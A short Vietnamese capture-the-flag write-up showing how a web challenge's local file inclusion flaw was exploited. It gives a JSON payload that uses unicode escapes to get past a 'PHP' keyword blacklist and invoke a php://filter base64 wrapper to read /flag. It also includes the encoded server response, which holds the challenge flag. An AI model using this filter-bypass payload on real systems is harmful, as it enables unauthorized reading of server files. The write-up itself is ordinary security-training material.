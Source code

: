 ## CÁCH LÀM

### WEB 1:

Đọc qua src code , có thể thấy web nhận POST request và có thể khai thác LFI.

> Khi gửi request , server trả về
>
> ![img](/imgs/response.png)


> `{"content":"Invalid content"}`
>
> do trong flag có "EHC" , đã blacklist.

Sau khi tra google thì e biết có 1 phương pháp encode base64 bằng php

> Gửi lại request cho server.
>
> ![img](/imgs/invalidreq.png)


> server vẫn trả về `{"content":"Invalid content"}` do trong request có chứa cụm "PHP", đã blacklist .

Sau 1 hồi tra google thì e lạI biết được json có escape char:
`\u+4-digits-hex`
--&gt; có payload

```json
{
    "page":"\u0050\u0048\u0050://filter/convert.base64-encode/resource=/flag"
}
```

> Gửi lại cho server , ta được flag :
>
> ![img](/imgs/flag.png)

> `{"content":"RUhDe3czbGMwbTNfdzNiX3c0cnJqMHJzfQo="}`
> Decode base64 , có
>
> ![img](/imgs/flagdecoded.png)

